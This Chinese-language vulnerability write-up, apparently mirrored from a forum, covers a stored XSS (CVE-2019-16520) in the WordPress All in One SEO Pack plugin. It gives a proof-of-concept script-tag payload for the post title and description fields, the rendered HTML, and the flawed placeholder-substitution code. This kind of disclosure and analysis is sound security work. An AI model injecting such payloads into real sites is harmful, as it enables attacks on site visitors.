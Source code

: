 # （CVE-2019-16520）WordPress Plugin - All in One SEO Pack 储存型xss

> 原文：[https://www.zhihuifly.com/t/topic/3251](https://www.zhihuifly.com/t/topic/3251)

# （CVE-2019-16520）WordPress Plugin - All in One SEO Pack 储存型xss

## 一、漏洞简介

适用于WordPress的3.2.7之前的“all-in-one-seo-pack plugin”插件（aka All in One SEO Pack）易受存储XSS的影响，原因是该插件通过不安全的占位符替换提供的帖子的SEO特定描述的编码不正确。

## 二、漏洞影响

wordpress <= 3.2.6

## 三、复现过程

### 1、利用过程

创建或编辑帖子时，可以设置以下值来显示漏洞：

```
title: "test_aiosp_title&<>"';><script src='data:text/javascript,alert(1)'></script>a"
Description: test_aiosp_desc&<>"'; pt:%post_title% wp_title:%wp_title% bd:%blog_description% sd:%site_description% bt: %blog_title% st: %site_title% desc:%description% 
```

当帖子被保存并以后访问时，将显示JavaScript警报弹出窗口。生成的HTML页面将包含以下代码

```
<title>test_aiosp_title&amp;&lt;&gt;&quot;&#039;;&lt;script src=&#039;data:text/javascript,alert(1)&#039;&gt;&lt;/script&gt; | XXXXXXX</title>

<!-- All in One SEO Pack 3.2.5 by Michael Torbert of Semper Fi Web Design[197,235] -->

<meta name=“description”  content=“test_aiosp_desc&amp;&quot;&#039;; pt:test_aiosp_title&<>”’;<script src=‘data:text/javascript,alert(1)’></script> wp_title:test_aiosp bd: sd: bt: XXXXXXX st: XXXXXXX desc:%description%" /> 
```

### 2、详细分析

该插件将几个字段添加到可以创建或编辑帖子的页面上。这样可以为每个帖子设置自定义标题和描述。此处提供的信息将插入meta到帖子页面上的相应-tags中。在将字段的值插入页面的HTML中之前，先对这些字段的值进行转义。

但是，在描述字段中，可以插入占位符，这些占位符在输出前已被某些值替换。也可以为前面提到的标题字段设置一个占位符。相关代码可以在 aioseop_class.php第4546-4548行中找到：

```
if ( false !== strpos( $description, '%post_title%', 0 ) ) {
    $description = str_replace( '%post_title%', $this->get_aioseop_title( $post, false ), $description );
} 
```

当攻击者在标题字段中设置有效负载并在描述字段中为标题字段的值提供占位符时，标题字段的原始值将被插入描述中。此后该描述未经过清理或编码。这使攻击者可以突破meta-tag属性并插入任意HTML和JavaScript。